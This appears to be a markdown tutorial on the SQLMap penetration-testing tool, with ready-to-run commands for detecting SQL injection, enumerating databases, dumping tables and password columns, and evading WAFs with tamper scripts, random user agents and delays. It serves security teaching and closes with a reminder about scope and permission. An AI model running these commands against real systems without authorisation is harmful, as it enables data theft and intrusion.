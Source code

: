 # SQLMap Guide: Beginner to Advanced

## Table of Contents

1. [Introduction](#introduction)
2. [Installation](#installation)
3. [Basic Usage](#basic-usage)
4. [POST Request Testing](#post-request-testing)
5. [Using Request Files from Burp Suite](#using-request-files-from-burp-suite)
6. [Target Enumeration](#target-enumeration)
7. [Advanced Options](#advanced-options)
8. [Bypassing Filters & WAFs](#bypassing-filters--wafs)
9. [Tamper Scripts](#tamper-scripts)
10. [Dumping Data](#dumping-data)
11. [Authentication and Sessions](#authentication-and-sessions)
12. [Common Problems & Troubleshooting](#common-problems--troubleshooting)
13. [Best Practices](#best-practices)

## Introduction

**SQLMap** is an open-source penetration testing tool that automates the detection and exploitation of SQL injection flaws. It's extremely powerful for extracting data from vulnerable databases.

## Installation

```bash
sudo apt update
sudo apt install sqlmap
```

Or clone the latest version:

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
```

Run with:

```bash
python3 sqlmap.py
```

## Basic Usage

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch
```

* `-u` : Target URL
* `--batch` : Non-interactive mode (auto-confirm)

To test specific parameters:

```bash
sqlmap -u "http://example.com/page.php" --data="id=1&submit=submit" --batch
```

## POST Request Testing

```bash
sqlmap -u "http://example.com/login.php" --data="username=admin&password=123" --batch
```

You can test only one field:

```bash
--data="username=admin&password=*"
```

## Using Request Files from Burp Suite

1. Capture request in Burp.
2. Save as request.txt
3. Run:

```bash
sqlmap -r request.txt --batch
```

Optional:

```bash
--level=5 --risk=3 --technique=BEUSTQ
```

## Target Enumeration

### List Databases

```bash
sqlmap -u URL --dbs
```

### List Tables

```bash
sqlmap -u URL -D <dbname> --tables
```

### List Columns

```bash
sqlmap -u URL -D <dbname> -T <tablename> --columns
```

### Dump Data

```bash
sqlmap -u URL -D <dbname> -T <tablename> --dump
```

## Advanced Options

* `--level=N` (1–5): Controls test depth. Higher = more tests.
* `--risk=N` (1–3): Controls the risk of tests (e.g., time delays).
* `--technique=BEUSTQ`: Choose specific SQLi techniques:

  * B: Boolean-based
  * E: Error-based
  * U: Union-based
  * S: Stacked queries
  * T: Time-based
  * Q: Inline queries

## Bypassing Filters & WAFs

* `--tamper=<script>`: Use tamper scripts to bypass WAF/filters.
* `--random-agent`: Use a random User-Agent.
* `--delay=3`: Add delay between requests.
* `--threads=1`: Use single thread (avoid detection).

## Tamper Scripts

Located in:

```bash
/usr/share/sqlmap/tamper/  # or sqlmap/tamper/
```

Examples:

```bash
--tamper=space2comment
--tamper=between,randomcase
```

Chain multiple with commas.

## Dumping Data

```bash
sqlmap -u URL -D <dbname> -T <table> --dump
```

Dump specific columns:

```bash
--dump -C "user,password"
```

## Authentication and Sessions

### Using Cookies

```bash
--cookie="PHPSESSID=abcd1234"
```

### HTTP Authentication

```bash
--auth-type=Basic --auth-cred="admin:password"
```

### Session Files

Use Burp's session file with `-r`.

## Common Problems & Troubleshooting

* **Not detecting injection**: Try increasing `--level` and `--risk`.
* **Blocked by WAF**: Use `--tamper`, `--random-agent`, and `--delay`.
* **CSRF Tokens**: Use session or manually update token in the request.
* **Captcha or MFA**: Manual testing might be required.

## Best Practices

* Understand the web app before running automated tools.
* Use `--batch` only when confident.
* Avoid high risk tests on production systems.
* Always respect scope and permissions.
* Combine with Burp Suite for best results.

---

